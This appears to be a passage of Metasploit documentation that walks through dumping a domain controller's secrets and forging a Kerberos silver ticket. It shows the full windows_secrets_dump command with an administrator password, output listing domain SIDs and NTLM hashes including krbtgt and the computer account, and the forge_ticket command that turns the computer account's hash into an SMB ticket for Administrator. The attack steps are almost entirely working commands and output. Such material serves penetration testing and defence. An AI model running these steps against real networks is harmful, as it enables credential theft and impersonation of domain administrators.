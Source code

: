 One way of extracting the computer account NTHASH is to run the `auxiliary/gather/windows_secrets_dump` module:

```msf
msf6 > use auxiliary/gather/windows_secrets_dump
msf6 auxiliary(gather/windows_secrets_dump) > run smb://adf3.local;Administrator:p4$$w0rd@dc3.adf3.local
[*] Running module against 192.168.123.13

[*] 192.168.123.13:445 - Service RemoteRegistry is already running
[*] 192.168.123.13:445 - Retrieving target system bootKey
[+] 192.168.123.13:445 - bootKey: 0xa03745c7a9597f105a4df1e84a5aef04

... omitted for brevity ...

[*] 192.168.123.13:445 - Decrypting NL$KM
[*] 192.168.123.13:445 - Dumping cached hashes
No cached hashes on this system
[*] 192.168.123.13:445 - Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] 192.168.123.13:445 - Using the DRSUAPI method to get NTDS.DIT secrets
[*] 192.168.123.13:445 - SID enumeration progress -  0 / 24 ( 0.00%)
[*] 192.168.123.13:445 - SID enumeration progress - 24 / 24 (  100%)
# SID's:
ADF3\Administrator: S-1-5-21-1266190811-2419310613-1856291569-500
ADF3\Guest: S-1-5-21-1266190811-2419310613-1856291569-501
ADF3\krbtgt: S-1-5-21-1266190811-2419310613-1856291569-502
ADF3\DefaultAccount: S-1-5-21-1266190811-2419310613-1856291569-503
ADF3\j.blogs: S-1-5-21-1266190811-2419310613-1856291569-1104
ADF3\admin: S-1-5-21-1266190811-2419310613-1856291569-1112
ADF3\DC3$: S-1-5-21-1266190811-2419310613-1856291569-1001 <------------- Use the SID from the targeted computer account, the part before RID 1001

... omitted for brevity ...

# NTLM hashes:
ADF3\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32ede47af254546a82b1743953cc4950:::
ADF3\Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ADF3\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:767400b2c71afa35a5dca216f2389cd9:::
... omitted for brevity ...
ADF3\DC3$:1001:aad3b435b51404eeaad3b435b51404ee:fbd103200439e14d4c8adad675d5f244::: <-- The NTHASH for the targeted computer account
```

With the above information a silver ticket for SMB can be forged for the target host:

```msf
msf6 auxiliary(admin/kerberos/forge_ticket) > run action=FORGE_SILVER domain=adf3.local domain_sid=S-1-5-21-1266190811-2419310613-1856291569 nthash=fbd103200439e14d4c8adad675d5f244 user=Administrator spn=cifs/dc3.adf3.local

[+] MIT Credential Cache ticket saved on /Users/user/.msf4/loot/20220831223726_default_192.168.123.13_kerberos_ticket._550522.bin
[*] Auxiliary module execution completed
```
